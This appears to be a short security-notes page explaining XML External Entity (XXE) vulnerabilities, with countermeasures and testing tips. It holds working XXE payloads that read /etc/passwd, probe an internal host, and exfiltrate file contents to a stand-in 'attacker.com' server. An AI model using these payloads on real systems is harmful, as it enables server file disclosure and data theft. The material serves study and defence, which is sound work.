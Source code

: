 # XML eXternal Entities Vulnerability

XXE is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. (Can be used to disclose various configuration file information, which the attackers then use to exploit the system further)

### What are XML External Entities
- External entity profiles are defined by outside sources such as a file on a local computer or a web URL. Such entities are used to ensure that the XML processor behaves consistently even when unexpected characters are parsed.

## XXE Attack 
- XXE vulnerabilities as uploading an XML file that includes an external entity.
```xml
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```


## Types of XXE Attacks: 

- XXE for File Retrieval
	- Defining a new Entity called ```xxe```. This entity is made to execute a system call.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<product>&xxe;</product>
<adress>&xxe;</adress>
```
- XXE for Server-Side Request Forgery 
	- System call to an HTTP endpoint of an internal webserver of which we should not see the contents from outside.
```xml 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internals.target.com"> ]>
```
- Data out-of-band exfiltration (Blind XXE)
	- Make a callback to our server.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://Attacker.com"> ]>
```
```xml
<!DOCTYPE foo [
	<!ENTITY % file SYSTEM "file:///etc/passwd">
	<!ENTITY % evil "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">]>
%evil;
%exfiltrate;
```



***


## Countermeasures:

- Use simple data formats. (JSON as an example)
- Use updated XML processes and libraries.
- Disable Document Type Definition and XXE in all XML Parsers.
- Usage of Whitelisting for Server-Side Input Validation.

***

## Takeaways: 

- It's important to insert your XXE entity into every single XML element. Any of them can be vulnerable as the developer has to filter ALL the fields individually.
- Trying to upload a file that will test for XXE on every entry point where an XML
is processed
- Look into for SVG/DOC/XLSX & SOAP requests.

